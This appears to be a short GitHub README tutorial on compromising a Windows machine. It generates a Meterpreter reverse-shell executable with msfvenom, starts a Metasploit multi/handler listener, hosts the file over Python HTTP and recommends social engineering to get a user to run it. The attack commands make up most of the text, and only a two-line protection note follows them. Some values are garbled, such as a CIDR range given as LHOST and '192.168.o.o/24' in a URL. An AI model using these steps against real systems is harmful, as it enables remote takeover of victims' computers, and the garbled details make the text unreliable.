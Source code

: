 # windows-hacking
WINDOWS AND LINUX HACKING

		
Create metasploit:

Before creating the metasploit, we need to figure out what is our Kali Linux local IP.
For that, run  “ip addr”  or  “ifconfig”
![image](https://github.com/user-attachments/assets/f5e84bbf-46d3-4ce6-b433-0c35288705fa)

 
In the terminal run the follow command:

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.0/24 LPORT=4444 –f exe > reverse_shell.exe
![image](https://github.com/user-attachments/assets/1e650a7e-9308-48b6-be77-7e482e8eadc0)

 

The command above instructs msfvenom to generate a 32-bit Windows executable file that implements a reverse TCP connection for the payload. The format must be specified as being type .exe, and the local host (LHOST) and local port (LPORT) have to be defined. In our case, the LHOST is the IP address of our attacking Kali Linux machine that we got in the last command, and the LPORT is the port to listen on for a connection from the target once it has been compromised.
The name of the .exe is up to you. In this case I’ll be using reverse_shell.exe because our target will be a only for test purpose.

Connection:


We now need to set up a listener on the port we determined within the executable. We do this by launching Metasploit using the command msfconsole on the Kali Linux terminal.
![image](https://github.com/user-attachments/assets/659e1ce5-8860-4f95-8c75-62ee6d1ce198)

 
The screenshot below shows what commands to issue within Metasploit. First, we’ll tell Metasploit to use the generic payload handler “multi/handler” using the command “use multi/handler”. We will then set the payload to match the one set within the executable using the command “set  payload windows/meterpreter/reverse_tcp”. We will then set the LHOST and LPORT this way — “set LHOST 192.168.47.152”and  “set  LPORT 4444”. Once done, type ```run``` or ```exploit```and press Enter.
The screenshot below displays the output. The reverse TCP handler should begin waiting for a connection.
 ![image](https://github.com/user-attachments/assets/57dae01d-54fe-45e2-b071-0a04e5315e80)

You can use show “options” command  to check if everything’s ok
 ![image](https://github.com/user-attachments/assets/3f18bc7f-c2b6-4388-9cb0-6219b44c6b09)


If everything’s ok type run or exploit
![image](https://github.com/user-attachments/assets/99756288-e6f7-4914-9cbc-caef4fafc2b4)

 

Social Engineer:


Now it’s the part that you need to do some social engineer in order to make the user execute the program.
For this tutorial we will simply host the .exe on python3 and transfer it on the Windows Machine.
![image](https://github.com/user-attachments/assets/f59d1b56-0155-42ee-a8e2-958d098eb64d)

 
On the Windows machine you just need to access via the browser the IP/File.exe
In our case is 192.168.o.o/24:8888/reverse_shell.exe .  Host  in python

![image](https://github.com/user-attachments/assets/0ffef250-39db-4dc3-a5d7-4aed0dfccd94)



 
Now execute and check the connection on the Kali Machine.
![image](https://github.com/user-attachments/assets/957c6ca9-9f2f-46fd-b35d-2f09ae9c1591)


 

 

Successfully compromise my windows machine using kali linux. It is only for educational purpose only.

How to Protect:
For this type of attacks the most important thing is to have the Firewall enabled. Windows Defender makes a good job protecting files like this.


